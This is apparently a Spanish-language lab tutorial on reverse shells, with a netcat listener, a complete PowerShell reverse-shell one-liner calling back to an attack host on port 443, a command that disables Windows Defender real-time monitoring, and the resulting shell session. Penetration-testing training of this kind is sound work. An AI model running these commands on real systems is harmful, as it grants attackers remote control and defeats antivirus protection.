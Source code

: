 # Reverse Shells

Con una reverse shell, la **caja de ataque** tendrá un "listener" (escucha) en ejecución, y el **objetivo** necesitará iniciar la conexión.

En muchos casos de sistemas vulnerables, es más probable que un administrador pase por alto conexiones salientes, lo que nos da una mejor oportunidad de no ser detectados. En contraste, las bind shells dependen de conexiones entrantes permitidas por el firewall del lado del servidor, lo cual es difícil de ejecutar en un entorno real.

Como se muestra en la imagen, al iniciar un "listener" para una concha inversa en nuestra caja de ataque, usamos algún método (como la carga de archivos no restringida o la inyección de comandos) para forzar que el objetivo inicie una conexión hacia nuestra caja, haciendo que la caja de ataque se convierta en el **servidor** y el objetivo en el **cliente**.

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No siempre necesitamos reinventar los payloads (comandos y código). Herramientas como el **Reverse Shell Cheat Sheet** contienen listas de comandos y generadores de shells inversas automatizadas que podemos usar en la práctica o en compromisos reales. Sin embargo, muchos administradores conocen estos recursos, por lo que podrían ajustar sus controles de seguridad para detectarlos. En algunos casos, necesitaremos personalizar nuestros ataques.

## Trabajando con una concha inversa en Windows

Vamos a establecer una concha inversa simple usando PowerShell en un objetivo Windows.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Usamos el puerto 443, común para conexiones HTTPS, ya que rara vez los equipos de seguridad bloquean este puerto. Sin embargo, firewalls avanzados con inspección de paquetes y visibilidad en la capa 7 pueden detectar conchas inversas en puertos comunes.

Una vez que el objetivo Windows esté activo, conectamos usando RDP.

> **Nota:** Netcat no es nativo en Windows, por lo que no podemos contar con él directamente. Idealmente, usamos las herramientas nativas del sistema.

Podemos usar un simple **one-liner** de PowerShell para crear una concha inversa.

### **En el objetivo Windows (cliente)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

El antivirus de Windows Defender bloqueó el código, como es de esperar desde el punto de vista defensivo. Desde la perspectiva ofensiva, tenemos algunos obstáculos si el antivirus está habilitado.

### **Deshabilitar el antivirus**

Podemos deshabilitar el antivirus con la siguiente línea en una consola de PowerShell administrativa:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez deshabilitado, ejecutamos de nuevo el código.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hemos establecido con éxito la concha inversa y podemos interactuar con el sistema. Intenta ejecutar algunos comandos estándar de Windows para practicar.
